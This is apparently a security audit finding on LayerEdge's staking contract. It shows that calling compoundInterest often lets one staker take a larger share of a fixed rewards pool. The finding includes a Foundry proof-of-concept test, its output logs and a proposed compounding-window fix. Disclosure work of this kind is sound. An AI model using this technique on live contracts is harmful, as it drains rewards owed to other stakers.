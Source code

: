 Brisk Violet Sidewinder

High

# Compound Interest can be gamed

## Vulnerability Details

LayerEdge permits any staker to compound their balances as long as they maintain an active stake with a positive balance. The problem arises when a staker can make frequent calls to `LayerEdgeStaking.compoundInterest`, gaming  the incentive system.

Each call leads to an increased balance, resulting in greater rewards for that staker. This situation disadvantages other stakers, who may only call `compoundInterest` less frequently.

Additionally, since the `rewardsReserve` consists of a fixed amount supplied by the admin or reward donors, it is conceivable that users with longer staking durations might be unable to claim or compound their rightful share of rewards.

## Root Cause

Lack of mechanisms to prevent stakers from making frequent compound interest calls.

## POC

Consider the following simplistic scenario

1. A total of 1e18 in rewards has been deposited.
2. Both Alice and Bob staked their positions at timestamp = 1.
3. Alice compounds her interest every 100 seconds until there are no more rewards left with a minimum stake of 3000e18 `LayerEdgen` tokens.
4. When Bob tries to compound his interest, the operation fails because Alice has continuously called `compoundInterest` and has already claimed all available rewards.
5. This scenario serves as a basic illustration of how the compounding system can be exploited, but the situation can be made worse when multiple users attempt to game the system simultaneously.

Consider another simplistic scenario

1. A certain amount of rewards has been deposited.
2. Both Alice and Bob staked 3000e18 `LayerEdgen` (MIN_STAKE) at timestamp = 1.
3. Alice repeatedly calls `LayerEdgeStaking.compoundInterest` every 10 seconds until timestamp = 101, maintaining her minimum stake of `3000e18` `LayerEdgen` tokens.
4. Bob compounds his interest at timestamp = 101.
5. Ultimately, Bob earns only `3329528158295281` in interest, while Alice accumulates `4756472191165429` in the same 100-second period.
6. Alice will only incur gas fees, but overall it'll be profitable for her. Additionally, she can repeatedly trigger `LayerEdgeStaking.compoundInterest` to increase her user balance and the subsequent interest assigned to her.
7. At the worse case scenario, other stakers (need not be Bob or Alice) might be unable to claim their fair share of the deposited rewards unless additional tokens are supplied / donated.

To run the below test:

1. Add the test `test_POC_compoundGame` to `LayerEdgeStakingTest.t.sol`
2. run `forge test --mt test_POC_compoundGame -vv`
 
Logs:
```bash
  Alice's interest claimed=  4756472191165429
  bob's interest claimed=  3329528158295281
  Difference in interest between Bob and Alice =  1426944032870148
```

```solidity
    function test_POC_compoundGame() public {
        vm.startPrank(alice);

        // Alice stakes at timestamp = 1
        vm.warp(1);
        token.approve(address(staking), MIN_STAKE);
        staking.stake(MIN_STAKE);
        (uint256 balance,,uint256 interestEarned,,,,,,) = staking.users(alice);

        uint256 timestamp = 1;
        for(uint256 i = 0; i < 10; i++) {
            timestamp += 10;
            vm.warp(timestamp);
            staking.compoundInterest();
        }

        (balance,,,interestEarned,,,,,) = staking.users(alice);
        uint256 aliceInterestEarned = balance - MIN_STAKE;
        console2.log("Alice's interest claimed= ", balance - MIN_STAKE);
        vm.stopPrank();

        // Bob stakes at timestamp = 1
        vm.startPrank(bob);

        vm.warp(1);
        token.approve(address(staking), MIN_STAKE);
        staking.stake(MIN_STAKE);
        (balance,,interestEarned,,,,,,) = staking.users(bob);

        vm.warp(101);

        vm.startPrank(bob);
        staking.compoundInterest();

        (balance,,,interestEarned,,,,,) = staking.users(bob);
        uint256 bobInterestEarned = balance - MIN_STAKE;
        console2.log("bob's interest claimed= ", bobInterestEarned);
        vm.stopPrank();

        console2.log("Difference in interest between Bob and Alice = ", aliceInterestEarned - bobInterestEarned);
    }
```

## Impact

Loss of rewards for other stakers. 
Other stakers might not be able to get their fair share of rewards

## Mitigation

Consider introducing a window during which users can compound their interest. Similar to the unstaking process, users would need to initiate a compound request first, and only after a predetermined `COMPOUND_WINDOW` can they execute `LayerEdgeStaking.compoundInterest`.

This will ensure users adhere to a consistent schedule for compounding their rewards.

## LOC

https://github.com/sherlock-audit/2025-05-layeredge/blob/main/edgen-staking/src/stake/LayerEdgeStaking.sol#L213